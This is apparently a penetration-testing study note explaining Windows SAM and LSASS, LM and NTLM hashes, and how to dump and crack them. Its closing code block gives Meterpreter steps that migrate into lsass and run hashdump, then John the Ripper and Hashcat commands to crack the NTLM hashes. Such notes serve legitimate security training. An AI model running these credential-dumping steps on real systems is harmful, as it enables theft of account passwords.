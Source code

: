 # 10 - Dumping & Cracking NTLM Hashes

### **Windows Password Hashes**

* The Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database.
* Hashing is the process of converting a piece of data into another value. A hashing function or algorithm is used to generate the new value. The result of a hashing algorithm is known as a hash or hash value.
* Authentication and verification of user credentials facilitated by the Local Security Authority (LSA).
* Windows versions up to Windows Server 2003 utilize two different types of hashes:
  * LM
  * NTLM
* Windows disables LM hashing and utilizes NTLM hashing from Windows Vista onwards.

**SAM Database**

* SAM (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed.
* The SAM database file cannot be copied while the operating system is running.
* The Windows NT kernel keeps the SAM database file locked and as a result, attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process.
* In modern versions of Windows, the SAM database is encrypted with a syskey.
* Note: Elevated/Administrative privileges are required in order to access and interact with the LSASS process.

**NTLM (NTHash)**

* NTLM is a collection of authentication protocols that are utilized in Windows to facilitate authentication between computers. The authentication process involves using a valid username and password to authenticate successfully.
* From Windows Vista onwards, Windows disables LM hashing and utilizes NTLM hashing.
* When a user account is created, it is encrypted using the MD4 hashing algorithm, while the original password is disposed of.
* NTLM improves upon LM in the following ways:
  * Does not split the hash in to two chunks.
  * Case sensitive.
  * Allows the use of symbols and unicode characters.

<figure><img src="../../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

### **Dumping & Cracking NTLM Hashes**

* We can dump Windows passwords hashes by leveraging various utilities like:
  * The inbuilt meterpreter “hashdump” command
  * Mimikatz
* After we have dumped the hashes, we can crack them through the use of the following utilities:
  * John The Ripper
  * Hashcat

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
meterpreter > pgrep lsass 
meterpreter > migrate <ID> # migrate into the lsass process to get a stable meterpreter session.
meterpreter > hashdump #Dump the hashes with meterpreter
#Copy the hashes and paste them in a .txt file.

john --list=formats #List the hash formats that JohnTheRipper can crack
john --format=<hashFormat> <hashFile> --wordlist=<wordlist> #Crack a hashwith JohnTheRipper (default JTH wordlist if wordlist flag isn't specified)
john --format=NT hashes.txt --wordlist=/usr/share....

john --show --format<hashFormat> <hashFile> # Show previously cracked passwords.

hashcat -a<attackMode> -m <hashMode> <hashFile> <wordlist>
hashcat -a 3 -m 1000 hashes.txt /wordlist_path # -a(attack-mode), -m(NTLM=1000).
hashcat <previousCommand> --show #Display previously cracked passwords.
```
{% endcode %}



